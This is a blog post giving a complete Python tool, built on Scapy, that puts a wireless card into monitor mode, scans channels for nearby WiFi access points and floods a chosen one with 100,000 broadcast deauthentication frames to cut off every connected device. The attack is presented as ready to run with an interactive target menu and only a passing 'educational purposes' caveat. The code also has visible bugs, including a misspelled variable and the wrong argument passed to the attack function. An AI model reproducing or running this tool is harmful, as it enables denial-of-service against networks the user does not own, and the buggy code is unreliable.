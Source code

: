 ```yaml
---
title: "Deauthentication attack against WiFi"
date: 2021-11-07T15:18:06+01:00
draft: true
---
```


A while ago I learned about deauthentication attacks on WiFi access points (AP). Simply put you should be able to perform a DoS attack on a WiFi without having to authenticate to it.
The attack is performed by sending a deauth management frame to the AP. I wanted to try it out and learn how and if it actually works. I found that it did and here is my implementation in Python. I had a great time developing this implementation and testing it out. It worked fine for me but it is possibly not risk free. Be cautious and use it only for educational purposes :) 

## Laying the groundwork
To run this from your laptop you will need a wireless network interface that support [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode). Luckily mine did and I can switch to it by running `iwconfig <wireless-interface> mode monitor`. Similarly I can go back to managed mode with the same command after performing the attack. This is a bit simplified but the following Python code will describe how to go back and fort between managed- and monitor mode. As you can see at the end there is also a function for setting the channel of the network interface, but we will get to that in a bit. The commands might depend on you OS, I ran with Ubuntu 20.04 but there is probably equivalent commands for you.


```python
# network_interface.py
from subprocess import run


def monitor_mode(interface: str):
    run(["systemctl", "stop", "NetworkManager"])
    run(["ifconfig", interface, "down"])
    run(["iwconfig", interface, "mode", "monitor"])
    run(["ifconfig", interface, "up"])


def managed_mode(interface: str):
    run(["ifconfig", interface, "down"])
    run(["iwconfig", interface, "mode", "managed"])
    run(["ifconfig", interface, "up"])
    run(["systemctl", "start", "NetworkManager"])


def hop_channel(interface: str, channel: int):
    run(["iwconfig", interface, "channel", str(channel)])
```


## Detect your target
Next we need to detect the details of your target. This is very easy because WiFi AP's emit beacons that shout out it's name and what MAC-address it has. It makes sense because how else would you computer be able to find AP's nearby? To do this in Python we will use Scapy to sniff for the beacons and collect the information necessary from them. Here we need to scan all channels that are relevant, because when we are in monitor mode we can only detect AP's on the current channel. 


```python
# wifi.py
from time import sleep
from typing import Sequence
from scapy.all import AsyncSniffer, Dot11, Dot11Deauth, RadioTap, sendp
from access_point import AccessPoint
from network_interface import hop_channel


def detect_networks(interface: str, channels: Sequence[int]):
    """
    Detect WiFi access points
    """
    print("Scanning for nearby WiFi networks...")
    access_points = {}
    
    for channel in channels:
        hop_channel(interface, channel)
        packets = _sniff_wifi_beacons(interface)
        for packet in packets:
            access_points[packet.addr2] = AccessPoint(mac=packet.addr2, ssid=packet.info.decode('utf-8'), channel=channel)
    access_points = list(acces_points.values())
    access_points.sort(key=lambda n : n.ssid)
    return access_points


def _sniff_wifi_beacons(interface):
    """
    Sniff for 802.11 beacon frames
    """
    sniffer = AsyncSniffer(iface=interface, filter="wlan type mgt subtype beacon", store=True)
    sniffer.start()
    sleep(2)
    sniffer.stop()
    return sniffer.results
```

Whenever we find an AP we will use the small model class AccessPoint and save it for later.

```python
# access_point.py
from dataclasses import dataclass


@dataclass
class AccessPoint():
    mac: str
    ssid: str
    channel: str
```

## Attack

We will extend the file `wifi.py` with the logic of the actual attack. Once we have the MAC-address of the target we will craft Dot11Deauth packet and spam the access point with it. Here we are targeting the broadcast MAC-address which will deny access for all devices until we reach the count of 100000 packets sent.

```python
def attack(interface: str, access_point: AccessPoint):
    hop_channel(interface, access_point.channel)
    target_device = "FF:FF:FF:FF:FF:FF"
    packet = RadioTap()/Dot11(type=0, subtype=12, addr1=target_device, addr2=access_point.mac, addr3=access_point.mac)/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100000, iface=interface, verbose=1)
```

## Tie it all together
Lastly here is the main script that ties it all together. It will initially scan for the available AP's and then prompt you for which one you want to attack. 
The channels are magically hard coded but you can check out what make sense for where you live [here](https://en.wikipedia.org/wiki/List_of_WLAN_channels).


```python
from wifi import detect_networks, attack
from network_interface import monitor_mode, managed_mode


CHANNELS = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 36, 40, 44, 48, 52, 56, 60, 64]
WIFI_INTERFACE = "wlp4s0"

monitor_mode(WIFI_INTERFACE)
acces_points = detect_networks(WIFI_INTERFACE, CHANNELS)

for i, ap in enumerate(acces_points):
    print(f"{i}: {ap}")

option = input("Select which network to deauthenticate and hit return: ")
acces_point = acces_points[int(option)]
answer = input(f"Are you sure you want to deauthenticate {acces_point.ssid}? Y/n ")
if not answer == "Y":
    exit(0)

attack(WIFI_INTERFACE, answer)
managed_mode(WIFI_INTERFACE)
```

Hope you enjoyed the read and if you want to check out the source code you find on [GitHub](https://github.com/krausen/wifi-deauthentication)